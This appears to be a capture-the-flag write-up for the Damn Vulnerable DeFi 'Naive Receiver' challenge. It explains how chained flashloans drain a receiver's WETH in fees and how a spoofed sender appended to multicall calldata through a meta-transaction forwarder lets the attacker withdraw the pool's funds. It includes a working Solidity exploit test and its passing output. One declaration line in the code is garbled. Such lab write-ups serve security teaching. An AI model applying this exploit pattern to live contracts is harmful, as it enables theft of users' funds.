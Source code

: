  
## Naive Receiver Challenge

---

### Challenge Overview

This challenge exploits an **access control flaw** in a meta-transaction system combined with a flashloan fee mechanism. A vulnerable pool offers flashloans with a fixed 1 WETH fee. The victim (user) has a receiver contract with 10 WETH balance and unknowingly becomes the target of draining attacks via flashloans.

The objective is to **drain all WETH** from both the pool and the user’s receiver contract, and deposit the funds into a designated recovery address.

---

### Smart Contract Breakdown

#### Key Contracts
- **NaiveReceiverPool**: Offers flashloans of WETH with a fixed fee of 1 WETH per call.
- **FlashLoanReceiver**: A sample user-deployed contract able to receive flashloans.
- **BasicForwarder**: A meta-transaction forwarder that allows execution of calls on behalf of users via valid signatures.

#### Important Mechanisms
- **flashLoan(address receiver, address token, uint256 amount, bytes calldata data)**  
  Executes a flashloan and charges a 1 WETH fee, regardless of loan amount.
- **multicall(bytes[] calldata data)**  
  Allows batching of multiple calls in a single transaction.
- **forwarder.execute(request, signature)**  
  Permits off-chain signed execution of calls via the meta-transaction forwarder.

---

### ⚠️ Vulnerability Explained

The **forwarder** blindly trusts the sender field embedded in the calldata of `withdraw()` when processed via `multicall()`. This creates a **spoofable sender** situation. An attacker can:
1. Encode a series of flashloan calls to drain the victim receiver's balance.
2. Add a `withdraw()` call to extract all funds from the pool by spoofing ownership using `abi.encodePacked(...)`.
3. Sign the entire payload off-chain and have the forwarder execute it.

---

### Exploit Strategy

1. Encode 10 consecutive flashloans that charge the victim's receiver 1 WETH each (draining 10 WETH total).
2. Encode a `withdraw()` call that drains both pool and receiver funds.
3. Combine calls using `multicall()`.
4. Forge the sender identity by packing the deployer address at the end of the call data.
5. Execute the entire call using `forwarder.execute()` with a valid EIP-712 signature.

---

### Exploit Code (Solidity)

```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
    bytes ;

    for (uint i = 0; i < 10; i++) {
        callDatas[i] = abi.encodeCall(
            NaiveReceiverPool.flashLoan,
            (receiver, address(weth), 0, "0x")
        );
    }

    callDatas[10] = abi.encodePacked(
        abi.encodeCall(
            NaiveReceiverPool.withdraw,
            (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))
        ),
        bytes32(uint256(uint160(deployer)))
    );

    bytes memory multicallData = abi.encodeCall(pool.multicall, callDatas);

    BasicForwarder.Request memory request = BasicForwarder.Request(
        player,
        address(pool),
        0,
        gasleft(),
        forwarder.nonces(player),
        multicallData,
        1 days
    );

    bytes32 requestHash = keccak256(
        abi.encodePacked(
            "\x19\x01",
            forwarder.domainSeparator(),
            forwarder.getDataHash(request)
        )
    );
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, requestHash);
    bytes memory signature = abi.encodePacked(r, s, v);

    forwarder.execute(request, signature);
}
```

### Proof of Exploit:
```yaml
[PASS] test_naiveReceiver() (gas: 477289)

Balance assertions:
WETH in FlashLoanReceiver: 0
WETH in NaiveReceiverPool: 0
WETH in recovery: 1010 WETH (successfully rescued all funds)

```

🔗 **GitHub**: [View](https://github.com/BLOCK-PROGRAMR/SCATER70/tree/main/ctf/damn-vulnerable-defi)